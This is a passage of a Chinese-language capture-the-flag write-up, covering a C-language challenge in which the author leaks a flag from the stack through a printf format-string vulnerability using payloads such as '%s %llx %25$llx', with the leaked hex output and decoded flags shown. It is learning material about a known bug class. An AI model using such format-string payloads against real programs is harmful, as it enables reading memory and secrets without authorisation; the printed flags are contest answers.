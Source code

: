 ```plaintext
flag{OOAAAAEAEIEAOOOO}
```

~~我超，brain power~~

~~我超，我怎么又是校内一血~~ ~~疑似有点出息了😋~~



## 初学C语言

### flag1

ICS知识还给老师了(x)，反正就把栈上的东西嗯爆出来就是了。看了一眼程序，原本用的gets变成了fgets貌似没那么好爆，那大概和attacklab不是一个思路。但是printf或许有点说法，我们搜索`printf stack overflow`找到一个叫做`format string attack`的漏洞，大概就是printf不会检查他实际参数的个数，如果你格式串的参数个数大于实际参数个数，printf就会假装他有这么多参数，在栈上往上访问到一个被printf认为是他的参数，但实际上不属于printf的内存。然后printf的格式串还可以直接指定引用的是第几个参数，我们可以构造以下payload:

```cpp
%s %llx %25$llx
```

其中25代表printf的”第25个参数“，并且25可以换成其他的任意数。我们手动枚举一下，发现26~29的东西或许比较有用：

```plaintext

Please input your instruction:
%s %llx %29$llx
a_public_string deadbeef a7d797a34655f

Please input your instruction:
%s %llx %28$llx
a_public_string deadbeef 6f735f656430635f

Please input your instruction:
%s %llx %27$llx
a_public_string deadbeef 66544e3152505f44

Please input your instruction:
%s %llx %26$llx
a_public_string deadbeef 3465527b67616c66
```

从序号从小到大把他拼成16进制串`0a7d797a34655f6f735f656430635f66544e3152505f443465527b67616c66`，去掉开头的0a，可以看得出来这是ascii码串，再把它转化成对应的字符串，得到我们的flag1：

```plaintext
flag{Re4D_PR1NTf_c0de_so_e4zy}
```



flag2卡在这里了，这我看不到源代码想不明白这flag2咋操作的，不会惹。



## 绝妙的多项式
